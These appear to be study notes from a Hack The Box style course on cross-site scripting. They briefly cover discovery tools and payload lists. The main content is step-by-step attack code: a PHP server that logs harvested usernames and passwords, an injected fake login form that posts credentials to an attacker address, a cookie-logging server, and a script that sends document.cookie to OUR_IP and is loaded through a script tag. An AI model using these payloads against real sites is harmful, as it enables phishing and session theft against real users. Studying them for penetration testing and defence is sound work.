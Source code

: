 ## Automated Discovery
Some of the common open-source tools that can assist us in XSS discovery are [XSS Strike](https://github.com/s0md3v/XSStrike), [Brute XSS](https://github.com/rajeshmajumdar/BruteXSS), and [XSSer](https://github.com/epsylon/xsser).

## Manual Discovery
We can find huge lists of XSS payloads online, like the one on [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md) or the one in [PayloadBox](https://github.com/payloadbox/xss-payload-list).

## Code Review
The most reliable method of detecting XSS vulnerabilities is manual code review, which should cover both back-end and front-end code.


## Credentials Stealing
### Step 1
Set up an HTTP server, a netcat server might be rejected. Example:
```shell-session
alakin2504@htb[/htb]$ mkdir /tmp/tmpserver
alakin2504@htb[/htb]$ cd /tmp/tmpserver
alakin2504@htb[/htb]$ vi index.php #at this step we wrote our index.php file
alakin2504@htb[/htb]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```


```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

### Step 2
Define an XSS vulnerable input or what kind of XSS vuln it is

### Step 3
Delivery:
```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

We use the payload below to remove any suspicious elements
```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

## Session Hijacking
### Step 1
Have an HTTP server that would extract the cookie. This only extract the ALREADY stolen cookie from the payload to a file
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

### Step 2
Build a payload that steals the cookie and call said php file. script.js:
```javascript
new Image().src='http://OUR_IP/index.php?c='+document.cookie
```

### Step 3
The actuall XSS payload, that call said script.js
```html
<script src=http://OUR_IP/script.js></script>
```
